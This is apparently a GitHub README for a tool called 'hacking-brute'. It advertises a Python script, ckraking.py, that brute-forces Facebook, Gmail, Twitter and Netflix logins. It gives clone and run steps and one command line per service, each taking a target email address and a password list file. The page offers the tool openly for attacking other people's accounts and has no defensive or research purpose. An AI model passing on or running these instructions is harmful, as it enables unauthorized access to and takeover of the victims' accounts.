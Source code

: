 # hacking-brute
Ckraking Facebook and Gmail and twitter and Netflix 

Hacking Facebook, Twitter, gmail and Netflix 
In order for the script to work, you must first use the Python language No.  version 1

git clone https://github.com/hmida125/hacking-brute

Cd hacking-brute
Ls
python ckraking.py
_______________________________________________

Exemple:facebook


python ckraking.py -f emailadress -l passwordlist.txt

Exemple:gmail

python ckraking.py -g emailadress -l passwordlist.txt

Exemple:twitter

python ckraking.py -T emailadress -l passwordlist.txt

Exemple:Netflix 

python ckraking.py -n emailadress -l passwordlist.txt
